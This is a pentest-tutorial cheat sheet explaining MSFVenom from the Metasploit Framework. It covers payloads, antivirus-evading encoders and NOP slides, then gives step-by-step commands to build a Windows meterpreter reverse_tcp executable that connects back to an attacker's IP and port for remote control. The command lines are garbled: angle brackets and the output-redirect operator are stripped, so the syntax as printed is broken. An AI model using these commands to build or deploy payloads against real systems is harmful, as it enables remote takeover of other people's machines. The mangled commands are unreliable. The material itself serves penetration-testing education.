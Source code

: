 # MSFVenom - CheatSheet


# 👉 Overview

---

### 👀 What ?

MSFVenom is a payload generation and encoding tool that forms part of the Metasploit Framework, a toolkit for penetration testing, exploit development, and vulnerability research. It allows cybersecurity professionals to generate custom payloads, which can be used to exploit vulnerabilities in a target system.


### 🧐 Why ?

Understanding and effectively using MSFVenom is essential for cybersecurity professionals, particularly those involved in penetration testing or red teaming. The tool is versatile and powerful, enabling the creation of numerous types of payloads for various platforms and for different purposes. It can be used to test the robustness of systems and to identify potential vulnerabilities that could be exploited by malicious hackers.


### ⛏️ How ?

To use MSFVenom, you first need to choose the payload you want to create. This will depend on the target system and the type of exploit you are planning. Once you have chosen the payload, you can use the '-p' option in MSFVenom to specify it. For instance, to create a reverse TCP shell payload for a Windows system, you might use the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port-f exe payload.exe'.


### ⏳ When ?

MSFVenom is typically used in the exploitation phase of a penetration test, after potential vulnerabilities have been identified. However, it can also be used in the reconnaissance and scanning phases to create decoy traffic or to probe for weaknesses.


# ⚙️ Technical Explanations

---

MSFVenom is a powerful tool in the Metasploit Framework, designed to generate payloads for penetration testing and exploit development. It works by combining three main elements: payloads, encoders, and NOP slides.

A payload is essentially a piece of code designed to carry out a specific task. This could be anything from creating a reverse shell on the target system, which allows for remote control, to adding a new user with admin rights, providing further access to compromised systems.

Encoders serve a crucial role in the evasion of detection by security systems. These function by transforming the payload into a different format, thereby helping it to bypass anti-virus software and intrusion detection systems. The encoder disguises the malicious intent of the payload, making it appear benign to security systems.

NOP slides, on the other hand, are sequences of 'no operation' instructions used in exploits. These are particularly useful when the exact memory location of the payload is unknown. In essence, a NOP slide creates a 'slippery slope' that leads the execution flow of a program straight to the payload, even when the precise location of this payload in memory is not known.

Together, these three elements allow MSFVenom to generate a wide variety of custom payloads, each tailored to exploit a specific vulnerability in a target system. The tool's versatility and power make it an essential asset for cybersecurity professionals in the fields of penetration testing and red teaming.

Let's take an example of creating a payload that opens a reverse shell on a Windows target.

**Step 1:** Choose the Payload
We'll use the 'windows/meterpreter/reverse_tcp' payload. This payload creates a reverse TCP connection from the target system to the attacker's system.

```bash
msfvenom -p windows/meterpreter/reverse_tcp

```

**Step 2:** Specify the Local Host (LHOST) and Local Port (LPORT)
LHOST and LPORT are the IP address and port on the attacker's machine that the reverse connection will communicate with. Replace `<Your IP Address` and `<Your Port` with your actual IP address and port number.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port

```

**Step 3:** Specify the File Type
The '-f' option is used to specify the file type of the payload. In this case, we'll use 'exe' to create an executable file.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port-f exe

```

**Step 4:** Output the Payload
Finally, we'll use the '' operator to output the payload to a file named 'payload.exe'.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port-f exe payload.exe

```

Now, you have a custom payload that, when executed on a Windows system, will open a reverse TCP connection back to your specified IP address and port, allowing you remote control of the system.
